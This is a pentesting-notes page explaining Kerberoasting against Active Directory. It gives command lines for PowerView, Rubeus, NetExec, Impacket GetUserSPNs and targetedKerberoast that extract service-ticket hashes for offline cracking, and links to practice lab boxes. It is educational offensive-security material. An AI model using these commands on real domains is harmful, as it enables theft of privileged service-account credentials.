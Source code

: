 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Kerberoasting

## TL;DR

Kerberoasting is an attack on the ST and [SPNs](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). SPNs are unique IDs that Kerberos uses to map a service instance, for example MySQL, to a service sign-in account, such as `svc_mysql`, in whose, often privileged, context the service is running. The ST is encrypted with the service's account NTLM hash, so it can potentially be cracked. **Any domain user can request a ST from the DC for any SPN account**.

<figure><img src="../../../../.gitbook/assets/kerberoasting_process.png" alt=""><figcaption><p>Figure 1: The Kerberos authentication process (image taken from <a href="https://www.optiv.com/insights/source-zero/blog/kerberos-domains-achilles-heel">here</a>).</p></figcaption></figure>

## Windows

{% tabs %}
{% tab title="PowerView" %}
```powershell
# confirm that the target account has SPN
Get-DomainUser 'sqldev' | Select serviceprincipalname
# kerberoast the target account
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
# Clear the SPNs of the target account
Set-DomainObject -Identity sqldev -Clear serviceprincipalname
```
{% endtab %}

{% tab title="Rubeus" %}
{% code overflow="wrap" %}
```powershell
.\Rubeus.exe kerberoast /creduser:domain\user1 /credpassword:pass /user:targetUser /outfile:hash.txt /format:hashcat /nowrap
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Linux

{% tabs %}
{% tab title="NetExec" %}
```bash
nxc ldap 192.168.0.104 -u user -p pass --kerberoasting output.txt
```
{% endtab %}

{% tab title="Impacket" %}
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 DOMAIN/user -request -outputfile spns.lst
```
{% endtab %}

{% tab title="targetedKerberoast" %}
```bash
targetedKerberoast.py -v -d <DOMAIN_FQDN> -u <USER> -p <PASSWORD>
```
{% endtab %}
{% endtabs %}

## Practice

{% tabs %}
{% tab title="Active (Easy)" %}
{% content-ref url="../../../../boxes/boxes/easy/active.md" %}
[active.md](../../../../boxes/boxes/easy/active.md)
{% endcontent-ref %}
{% endtab %}

{% tab title="Sizzle (Insane)" %}
{% content-ref url="../../../../boxes/boxes/insane/sizzle.md" %}
[sizzle.md](../../../../boxes/boxes/insane/sizzle.md)
{% endcontent-ref %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="Video Tutorial" %}
{% embed url="https://www.youtube.com/watch?v=-3MxoxdzFNI" %}
Kerberoasting in 14 minutes!
{% endembed %}
{% endtab %}

{% tab title="GetUserSPNs" %}
{% embed url="https://www.youtube.com/watch?v=xH5T9-m9QXw" %}
How GetUserSPNs script work behind the scenes!
{% endembed %}
{% endtab %}

{% tab title="Tim Medin's Lecture" %}
{% embed url="https://www.youtube.com/watch?v=Jaa2LmZaNeU" %}
{% endtab %}

{% tab title="Kerberoasting" %}
{% embed url="https://adsecurity.org/?p=3458" %}
A great article detailing the Kerberoasting process.
{% endembed %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="targetedKerberoast" %}
{% embed url="https://github.com/ShutdownRepo/targetedKerberoast" %}
{% endtab %}

{% tab title="Second Tab" %}

{% endtab %}
{% endtabs %}
